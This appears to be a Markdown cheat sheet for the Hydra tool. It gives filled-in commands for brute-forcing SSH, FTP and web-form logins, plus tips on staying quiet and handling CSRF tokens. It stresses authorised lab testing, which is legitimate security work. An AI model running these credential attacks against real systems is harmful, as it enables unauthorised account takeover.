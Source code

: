 # Hydra Commands — Cheat Sheet

A concise reference for using **Hydra** to brute-force services (SSH, FTP, and web forms). Examples below assume you run Hydra from a Linux shell and have proper authorization to test the target.

---

## Table of contents

- [SSH brute force](#ssh-brute-force)
- [FTP example](#ftp-example)
- [HTTP POST form brute force](#http-post-form-brute-force)
- [Common options](#common-options)
- [Tips & safety](#tips--safety)

---

## SSH brute force

Use this to brute force SSH logins when you know the username and have a password list.

```bash
hydra -l <username> -P <full/path/to/password_list.txt> <MACHINE_IP> -t 4 ssh
```

**Example**

```bash
hydra -l root -P /home/user/passwords.txt 10.0.0.5 -t 4 ssh
```

This will:

- Try username `root`.
- Try passwords line-by-line from `/home/user/passwords.txt`.
- Use 4 parallel threads.
- Target SSH on `10.0.0.5`.


## FTP example

A simple FTP example when the username is `user` and the password list is `passlist.txt`:

```bash
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

## HTTP POST form brute force

When the login form uses `POST`, you must tell Hydra the request path, the form field names, and a string that appears in the response when login fails.

General syntax:

```bash
sudo hydra -l <username> -P <wordlist> <MACHINE_IP> http-post-form "<path>:<login_credentials>:<invalid_response>" -V
```

- `<path>` — path of the login endpoint (e.g., `/login.php` or `/`).
- `<login_credentials>` — e.g. `username=^USER^&password=^PASS^` where `^USER^` and `^PASS^` are placeholders.
- `<invalid_response>` — a string that appears only when login fails (Hydra uses this to detect failures).

**Concrete example**

If the login form is at the root `/` and the POST body uses `username` and `password` fields and fails with the string `F=incorrect`:

```bash
hydra -l <username> -P <wordlist> <MACHINE_IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Example filled-in**

```bash
hydra -l admin -P /home/user/wordlists/rockyou.txt 10.0.0.5 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials" -V
```

Notes:
- Use your browser DevTools (Network tab) to inspect the exact POST body and failure response string.
- If fields are sent as JSON, or the site uses JavaScript-heavy requests (XHR/fetch), you will need to replicate that payload exactly or use another tool that can script the flow.


## Common options

| Option | Description |
|---|---|
| `-l` | Specify a single username (for services that accept a username) |
| `-L` | File containing multiple usernames (one per line) |
| `-P` | Password list file |
| `-p` | Single password |
| `-t` | Number of parallel tasks/threads |
| `-V` | Verbose: show every attempt |
| `-s` | Port number (if non-standard) |


## Tips & safety

- **Only test targets you are explicitly authorized to test.** Unauthorized brute forcing is illegal and unethical.
- Start with fewer threads (`-t 4`) to avoid overloading the target and to be less noisy.
- Use `-V` during testing to see each attempt, and remove it for quieter runs.
- For web forms, double-check the exact request format (field names, cookies, headers) with the browser DevTools.
- If the site uses CSRF tokens or dynamic tokens, Hydra might fail — consider programmatic approaches (e.g., custom scripts with `requests`/`curl`) that can fetch tokens per attempt.

---

*Save this file as `hydra-commands.md` and edit examples for your lab target.*

